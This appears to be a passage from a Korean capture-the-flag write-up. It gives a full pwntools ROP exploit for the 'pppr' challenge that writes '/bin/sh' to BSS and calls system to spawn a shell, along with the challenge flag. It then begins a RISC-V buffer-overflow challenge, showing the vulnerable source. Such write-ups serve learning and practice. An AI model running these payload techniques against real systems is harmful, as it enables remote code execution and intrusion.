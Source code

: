문제에서는 system@plt를 제공하기 때문에, libc를 leak할 필요도 없고 제공해주지도 않았다.

제목이 pppr, 즉, pop이 3개 있는 gadget을 사용하라는 의미이고, 적당히 BSS 세그먼트에 `"/bin/sh"`를 작성하고, 쉘을 띄우면 된다.

```python
from pwn import *

p = remote('pppr.sstf.site', 1337)
system_plt = 0x80483d0
r = 0x8048526
pppr = 0x080486a9
buf_in_bss = 0x804a040

payload = b'A'*0xC
payload += p32(r)
payload += p32(pppr)
payload += p32(buf_in_bss)
payload += p32(0x100)
payload += p32(0)
payload += p32(system_plt)
payload += p32(0)
payload += p32(buf_in_bss)
p.sendline(payload)
p.sendline(b'/bin/sh')

p.interactive()
```

`SCTF{Anc13nt_x86_R0P_5kiLl}`


### **riscy**
- Arch : em_riscv-64-little
- RELRO : <span style="color: #ffd33d">Partial RELRO</span>
- Stack : <span style="color: red">No Canary found</span>
- NX : <span style="color: #008000">NX enabled</span>
- PIE : <span style="color: red">No PIE (0x400000)</span>

```c
int main(int argc, char *argv[])
{
  ...
  start();
  return 0;
}

void start() {
  printf("IOLI Crackme Level 0x00\n");
  printf("Password:");

  char buf[32];
  memset(buf, 0, sizeof(buf));
  read(0, buf, 256);
  
  if (!strcmp(buf, "250382"))
    printf("Password OK :)\n");
  else
    printf("Invalid Password!\n");
}
```
start 함수 내부에서 BOF가 발생한다.
